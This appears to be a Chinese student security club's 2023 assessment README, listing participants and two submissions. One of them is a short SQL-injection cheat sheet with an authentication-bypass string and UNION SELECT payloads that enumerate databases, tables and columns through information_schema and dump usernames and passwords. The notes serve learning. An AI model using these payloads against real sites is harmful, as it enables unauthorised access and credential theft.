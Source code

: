 # 信安部2023考核

#### 参加人员：

- 黄美如
- 周齐家
- 郑明宇
- 李梦青



#### 作品提交：2个



##### sql注入（郑）：

~~~ mysql
//支持post注入的万能用户名和密码
1' or
or '1'='1

table_schema
information_schema

//确认显错位
and 1=2 select 1,2,3
//查询数据库
union select 1,2,database()
//查数据库中所有表名            
union select 1,2,table_name from information_schema.tables where table_schema='db02' limit 0,1
//查数据库中所有字段名
union select 1,2,column_name from information_schema.columns where table_schema='db02' and table_name='users' limit 0,1
//查一张表的信息
union select 1,username,password from users limit 0,1

~~~



##### 图片转文字（周）：

图片文本：

链接：

效果图：



![效果图片](./图片转手写文字/运行结果.png)



##### 现场图片：

![实景图片](./实景照片.jpg)


